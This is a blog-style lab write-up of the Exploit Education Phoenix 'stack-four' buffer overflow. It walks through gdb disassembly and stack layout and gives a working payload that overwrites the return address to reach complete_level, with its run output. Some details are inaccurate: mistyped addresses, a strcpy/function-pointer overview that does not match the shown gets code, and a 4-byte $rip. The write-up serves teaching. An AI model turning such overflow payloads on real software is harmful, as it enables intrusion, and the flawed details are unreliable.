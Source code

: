 ```yaml
---
layout: post
title: Stack Four Writeup - Exploit Education Lab Exercise
categories: [security, binary-exploit, reverse-engineering, friday-gems]
tags: [security, binary-exploitation, friday-gems]
description: A comprehensive writeup that helps to understand Stack Four exercise stack-overflow vulnerability with learning resources.
---
```


Previous Writeup: 
1. [Stack Zero Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/12/exploit-education-stack-zero-exercise-writeup.html)
2. [Stack One Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/20/exploit-education-stack-one-exercise-writeup.html)
3. [Stack Two Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/26/exploit-education-stack-two-exercise-writeup.html)
4. [Stack Three Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/27/exploit-education-stack-three-exercise-writeup.html)

If you're learning and writing binary exploits, I would strongly recommend you to take [Architecture 1001: x86-64 Assembly](https://p.ost2.fyi/courses/course-v1:OpenSecurityTraining2+Arch1001_x86-64_Asm+2021_v1/course/) course by `Xeno Kovah`. They cover a wide variety of learning assembly instructions which will be really helpful to understand the exploits.

If you haven't done setting-up your lab, feel free to check out my previous article on [Exploit.education lab setup](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/06/exploit-education-lab-setup.html)

### Quick Overview

Similar to Stack Two, Stack Four exercise motive is to smash the stack to modify other variables in the stack to a `hex value` and technically overwrite `function pointer` in the stack. Similar to `gets` in Stack Zero, `strcpy` function is unsafe that doesn't have bounds check, it accepts memory address to write but doesn't care about overwriting other declared function pointer in stack. If you take closer look at the struct which isn't dynamically being allocated by `malloc` function, so probably the struct which contains both `char buffer[64]` and `volatile int *fp` function pointer stays in main stackframe. This overwritten function pointer will be further used to invoke in later part of the program.

### Disassemble

Disassembling the code will get you overall idea behind the stack-four code, One can use `gdb ./stack-four` to start debugging it in runtime.

1. `gdb ./stack-four`
2. Type `disassemble main` to get the disassembled code (assembly)

```assembly
   0x000000000040066a <+0>:     push   rbp
   0x000000000040066b <+1>:     mov    rbp,rsp
   0x000000000040066e <+4>:     sub    rsp,0x10
   0x0000000000400672 <+8>:     mov    DWORD PTR [rbp-0x4],edi
   0x0000000000400675 <+11>:    mov    QWORD PTR [rbp-0x10],rsi
   0x0000000000400679 <+15>:    mov    edi,0x400750
   0x000000000040067e <+20>:    call   0x400480 <puts@plt>
   0x0000000000400683 <+25>:    mov    eax,0x0
   0x0000000000400688 <+30>:    call   0x400635 <start_level>
   0x000000000040068d <+35>:    mov    eax,0x0
   0x0000000000400692 <+40>:    leave
   0x0000000000400693 <+41>:    ret
```

`> disassemble start_level`

```assembly
   0x0000000000400635 <+0>:     push   rbp
   0x0000000000400636 <+1>:     mov    rbp,rsp
   0x0000000000400639 <+4>:     sub    rsp,0x50
   0x000000000040063d <+8>:     lea    rax,[rbp-0x50]
   0x0000000000400641 <+12>:    mov    rdi,rax
   0x0000000000400644 <+15>:    call   0x400470 <gets@plt>
   0x0000000000400649 <+20>:    mov    rax,QWORD PTR [rbp+0x8]
   0x000000000040064d <+24>:    mov    QWORD PTR [rbp-0x8],rax
   0x0000000000400651 <+28>:    mov    rax,QWORD PTR [rbp-0x8]
   0x0000000000400655 <+32>:    mov    rsi,rax
   0x0000000000400658 <+35>:    mov    edi,0x400733
   0x000000000040065d <+40>:    mov    eax,0x0
   0x0000000000400662 <+45>:    call   0x400460 <printf@plt>
   0x0000000000400667 <+50>:    nop
   0x0000000000400668 <+51>:    leave
   0x0000000000400669 <+52>:    ret
```

If you carefully check the source, you might miss `complete_level` in the above disassembled code. You can go ahead and type `disassemble complete_level` in the gdb prompt,

```assembly
   0x000000000040061d <+0>:     push   rbp
   0x000000000040061e <+1>:     mov    rbp,rsp
   0x0000000000400621 <+4>:     mov    edi,0x4006f0
   0x0000000000400626 <+9>:     call   0x400480 <puts@plt>
   0x000000000040062b <+14>:    mov    edi,0x0
   0x0000000000400630 <+19>:    call   0x400490 <exit@plt>
```

Before taking a look at the code, if you disassembled the stack-four using gdb to view the assembly instruction, you may notice the puts, start_level, exit and gets function calls with parameters. So basically when you hit `r` in gdb without breakpoint,

1. Greet with `Welcome to phoenix/stack-four, brought to you by https://exploit.education` message via Puts (aka printf) method
3. Invokes `start_level` function `0x400635`
4. Accepts user input via `gets` method with `buffer` memory address.
5. Invoke `__builtin_return_address` method to get the `rip` register address which is already stored in stack
6. Print the return address via `puts` method.

### Primary Goal

The primary goal of this exercise is to make you familiar to overwrite return address in the stack with your own return address to a function and therefore redirecting the program flow to achieve code execution. In the ideal exploit world, you may overwrite the return address and redirect to `system` function to achieve remote code execution. In this exercise, you might want to overwrite the return address stored in the `start_level` stackframe and redirect the program flow to `complete_level`. The return address is used by `$rip` register aka instruction pointer which is responsible for loading next instruction of the program.

### Memory Allocation

As you see that the `buffer` variable isn't dynamically allocated, they are allocated in the stack frame same as `main` function gets executes. The main function starts executing my pushing `$rbp` to stack at `0x7fffffffe660` and then `rsp` to `$rbp-0x10` (`0x7fffffffe650`) as expected the stack grows from top (higher memory address) to bottom (lower memory address). After series of steps, `start_level` is invoked pushing $rbp again to `0x7fffffffe640` and $rsp to `0x7fffffffe5f0`.

![Stack Memory Layout from $rbp till $rsp](/assets/media/exploit-education-phoenix-stack-four-rbp.jpg)

You can see that `buffer` (64 bytes) gets written at `$rbp-0x50` i.e `0x7fffffffe5f0` and `$rip` register (4 bytes) at `rbp-0x10` i.e `0x7fffffffe650`. Now that you got the overall idea of the memory layout of the stack, you can now go ahead blow up the stack to overwrite `$rip` aka return address stored in stack. If you play around with these memory layout behaviour, you can note that the char `buffer` variable writes from `$rbp-0x50` towards `$rbp-0x08` i.e `0x7fffffffe648`.

### Exploit

As previously discussed `buffer` and `$rip` are allocated nearby each other in stack. So, if your input of 64 characters (example: 64 * 'A') wouldn't overrite the $rip register (instruction pointer), but if you do the same with 88 characters + 4 character (actual $rip), you have succesfully overwritten `$rip` register. However, our challenge is to overwrite return address ($rip) with `complete_level` function memory address. So, How do I get the `complete_level` function loaded memory address? Simple, use gdb disassemble `disassemble complete_level` command and note down the starting `$rbp` address aka `0x4001d` (ignore the padding zeros).

If you try generating the payload simply  `(A * 88) + '\x40\x06\x1d'`, this would represent in the memory as `88 'A's & 0x40069d` 😵. Remember [Little Endianness](https://en.wikipedia.org/wiki/Endianness) ?, Yes Intel or AT&T syntax follows Little Endianness, so the representation should be in reverse order as `'A'*88 + '\x1d\x06\x40'`.

![Stack Memory Layout](/assets/media/exploit-education-phoenix-stack-four-gdb.jpg)

### Result

`> r <<< $(python -c "print('A'*88 + '\x1d\x06\x40')")` in gdb prompt.

```assembly
(gdb) r <<< $(python -c "print('A'*88 + '\x1d\x06\x40')")
Starting program: /opt/phoenix/amd64/stack-four <<< $(python -c "print('A'*88 + '\x1d\x06\x40')")
Welcome to phoenix/stack-four, brought to you by https://exploit.education
and will be returning to 0x40061d
Congratulations, you've finished phoenix/stack-four :-) Well done!
[Inferior 1 (process 317) exited normally]
```

There you go! 🎉 You've officially `pwned` the `binary` and possibly you could control the program flow and may 
eventually perform remote code execution in the system. 🪲

![buffer-overflow-meme](/assets/media/buffer-overflow-meme-2.jfif)

### Source and Reference:

1. Stack Four Exercise: [Exploit Education](https://exploit.education/phoenix/stack-four/)
2. [Architecture 1001: x86-64 Assembly](https://p.ost2.fyi/courses/course-v1:OpenSecurityTraining2+Arch1001_x86-64_Asm+2021_v1/course/)

### Closing Note:

I hope this post is helpful for vulnerability researcher 🔍 & code reviewers, For bugs,hugs & discussion, DM in [Twitter](https://twitter.com/sshivasurya). Opinions are my own and not the views of my employer.
